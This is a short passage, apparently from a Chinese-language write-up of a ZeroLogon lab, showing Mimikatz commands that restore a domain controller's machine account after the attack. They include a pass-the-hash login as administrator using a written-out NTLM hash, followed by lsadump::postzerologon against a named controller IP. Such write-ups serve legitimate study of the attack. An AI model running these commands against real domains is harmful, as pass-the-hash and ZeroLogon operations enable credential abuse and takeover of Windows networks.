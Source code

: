 

**恢复环境(并未恢复至原始HASH)**

```
privilege::debug
sekurlsa::pth /user:administrator /domain:ring2.com /ntlm:b9e0cfceaf6d077970306a2fd88a7c0a
lsadump::postzerologon /target:192.168.240.142 /account:ringdc-pc$
```

![image-20201220165402426](/assets/img/image-20201220165402426.png)